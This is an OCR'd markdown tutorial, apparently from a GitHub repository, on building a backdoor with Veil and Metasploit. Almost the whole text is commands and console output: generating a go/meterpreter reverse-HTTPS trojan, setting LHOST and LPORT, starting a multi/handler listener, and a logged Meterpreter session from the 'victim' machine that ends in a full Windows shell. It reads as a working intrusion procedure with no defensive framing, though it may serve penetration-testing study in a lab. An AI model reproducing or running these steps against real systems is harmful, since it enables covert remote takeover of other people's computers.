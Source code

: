 # veil - Creating backdoors with veil and metasploit

## Introduction

Note that backdoors created with `veil` are recognised by all antivirus software.

## Creating the backdoor

First install veil, but really this way, as the installation of veil will 
install tons of other stuff which will popup wizards etc and you will fail 
at some point anyway:

    apt update
    apt install -y veil
    /usr/share/veil/config/setup.sh --force --silent

Start veil as root user.

Use the Evasion tool:

    use 1

List the available payloads:

    list

This shows a list (41 items) of different payloads. In this case we want to 
create a reverse https connection. So that the infected machine will start 
the connection itself and which will then probably not blocked by the 
firewall or router. As the victim will probably have a local ip address.

The other important point, as we will use metasploit, we need to find a 
payload containing the word `meterpreter`, as they are the same authors as 
metasploit. For example payload 15.

    15)     go/meterpreter/rev_https.py

Select the desired payload:

    use 15

Show the options we should set:

    show options

Set the desired options:

    set LHOST 10.0.2.4
    set LPORT 8080

Finally, generate the backdoor:

    generate

Give a name to the output file:

    go_rev_https_8080

You get some information to where the output is generated. Which is:

    /var/lib/veil/output/compiled/

## Using the backdoor

Start the metasploit console with:

    msfconsole

Nos use a multi handler listener:

    use exploit/multi/handler

We need to select the same payload as we used to create the Trojan backdoor. 
But we can list all available payloads with `show payloads`. Which will 
return a list of `549` entries.

Set the payload:

    set PAYLOAD windows/meterpreter/reverse_https

See the available options we can/need to set

    show options

Set the required options

    set LHOST 10.0.2.4
    set LPORT 8080

Verify the options now and if needed, adjust them like we did before:

    show options

Now it's time to launch the exploit:

    exploit

You will see that the interpreter looks like this now:

    msf6 exploit(multi/handler) > exploit
    
    [*] Started HTTPS reverse handler on https://10.0.2.4:8080

It is now waiting that the victim runs the backdoor Trojan.

So on a Windows machine launch one of the created reverse HTTPS backdoor.

Once this happens, you will see that you are connected.

    [!] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Without a database connected that payload UUID tracking will not work!
    [*] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Staging x86 payload (176220 bytes) ...
    [!] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Without a database connected that payload UUID tracking will not work!
    [*] Meterpreter session 1 opened (10.0.2.4:8080 -> 127.0.0.1) at 2021-07-24 17:45:32 +0200
    
    meterpreter >

You can get system information with:

    sysinfo

And you can run other metasploit shell commands  But at this point 
your still not really on the Windows shell. 

To get the Windows shell, type

    shell

Now you have full access on the victims computer through the Windows shell
